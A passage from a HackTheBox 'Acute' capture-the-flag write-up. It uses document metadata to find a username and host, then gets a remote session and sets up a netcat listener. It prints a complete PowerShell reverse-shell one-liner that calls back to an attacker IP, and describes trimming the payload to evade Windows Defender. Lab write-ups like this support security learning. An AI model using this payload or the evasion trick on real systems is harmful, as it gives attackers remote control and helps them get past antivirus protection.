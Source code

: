 Wait what? It seems like the computer name is wrong?

**After poking around, I found that the metadata of the Word document is actually very useful:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|19:15:11(HKT)]
└> exiftool ~/Downloads/New_Starter_CheckList_v7.docx
[...]
Creator                         : FCastle
Description                     : Created on Acute-PC01
Last Modified By                : Daniel
[...]
Company                         : University of Marvel
[...]
```

In here, not only we found the username schema, but also the computer name: **`Acute-PC01`**

Let's login as `EDavies` to computer `Acute-PC01`!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Acute/images/Pasted%20image%2020230814191732.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Acute/images/Pasted%20image%2020230814191754.png)

Nice! We now have PowerShell remote access as user `edavies`!

**However, I don't like PWSA, so let's get a reverse shell:**

- Setup a netcat listener:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.14|19:19:03(HKT)]
└> rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
```

- Send the PowerShell reverse shell payload (Generated from [revshells.com](https://www.revshells.com/))

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Acute/images/Pasted%20image%2020230814192109.png)

Ahh... It got picked up by the **Windows Defender** Anti-Virus (AV) software...

**To bypass the AV, we can use a different payload, and modify the payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Acute/images/Pasted%20image%2020230814192753.png)

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.19',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS > ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

> Note: The `(pwd).Path` is removed, because it seems like **Windows Defender dislike the whole path is being sent to a remote host**.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Acute/images/Pasted%20image%2020230814192906.png)
